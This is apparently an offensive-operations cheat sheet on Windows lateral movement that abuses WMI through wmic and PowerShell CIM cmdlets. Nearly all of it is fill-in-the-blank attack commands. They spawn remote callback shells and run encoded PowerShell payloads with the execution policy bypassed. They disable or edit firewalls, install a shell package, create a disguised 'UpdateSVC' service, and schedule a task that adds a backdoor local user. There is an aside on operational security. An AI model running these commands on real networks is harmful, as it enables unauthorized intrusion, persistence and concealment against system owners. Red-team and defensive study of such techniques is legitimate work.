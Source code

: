 # Living off the Land

## 01 - Command Prompt

### 1.1 - Usage

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

- Execute a WMIC with commands remotely (You'll be relying on this a lot and it leaves a little footprint)

```
C:\> where /r C:\ wmic.exe

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "<commands>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] win32_process call create "C:\path\to\shell.exe"
```

### 1.2 - Use Cases

#### 1.2.1 - Spawn Callback Shells

```
C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c <commands>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\path\to\shell.exe"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "rundll32 C:\path\to\shell.dll"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\Windows\System32\WindowsPowershell\v1.0\powershell -v 2 -enc <base64_encoded>"

C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -v 2 -enc <base64_encoded>"
```

#### 1.2.2 - Firewalls

- Disabling firewall rules (not recommended for OPSEC)

`C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall set allprofiles state off"`

- Deleting a firewall rule

`C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall firewall delete rule name=\"<rule_name>\""`

- Adding firewall rules

`C:\> wmic /node:<IP> [/user:<username>] [/password:<password>] process call create "cmd.exe /c netsh advfirewall firewall add rule name=\"<rule_name>\" dir=in action=allow protocol=tcp localport=<port>"`

## 02 - Powershell

### 2.1 - Usage

#### 2.1.1 - Invoke-WmiMethod

```
PS C:\> Get-CimInstance -Classname Win32_Net* -List

PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "<commands>"
```

#### 2.1.2 - Invoke-CimMethod

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"
}
```

### 2.2 - Use Cases

#### 2.2.1 - Spawn Callback Shells

##### 2.2.1.1 - Download Cradle

- `Invoke-WmiMethod`

```powershell
PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "powershell -E <base64_encoded>"
```

```powershell
PS C:\> $servicetype = [byte] 16
$errorcontrol = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $errorcontrol, $null,$null,"WinPerf","c:\windows\system32\cmd.exe /c powershell -e <base64_encoded>",$null,$servicetype,"Manual","NT AUHORITY\SYSTEM","" -ComputerName <IP> -Credential <domain_name>\Administrator
```

- `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $Command
}
```

##### 2.2.1.2 - MSI Package

- `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
	PackageLocation = "C:\path\to\shell.msi";
	Options = "";
	AllUsers = $false
}
```

#### 2.2.2 - Create Service

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
	Name = "UpdateSVC";
	DisplayName = "UpdateSVC";
	Pathname = "C:\path\to\shellsvc.exe";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess
	StartMode = "<Manual | Auto>"
}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -Filter "Name LIKE 'UpdateSVC'"

# Start the service

Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service

Invoke-CimMethod -InputObject $Service -MethodName StopService

# Delete service

Invoke-CimMethod -InputObject $Service -MethodName Delete
```

#### 2.2.3 - Schedule Tasks

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "cmd.exe"

$Args = "/c net user <username> <password> /add & net localgroup `"<local_group>`" <username> /add /y"

# Create new schedule task

$Action = New-ScheduleTaskAction -CimSession $Session -Execute $Command $Argument $Args

Register-ScheduleTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<schedule_taskname>"

# Execute schedule task

Start-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"

# Delete schedule task

Unregister-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"
```

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)

- [Cybereason: No Win32 Process Needed | Expanding the WMI Lateral Movement Arsenal](https://www.cybereason.com/blog/wmi-lateral-movement-win32)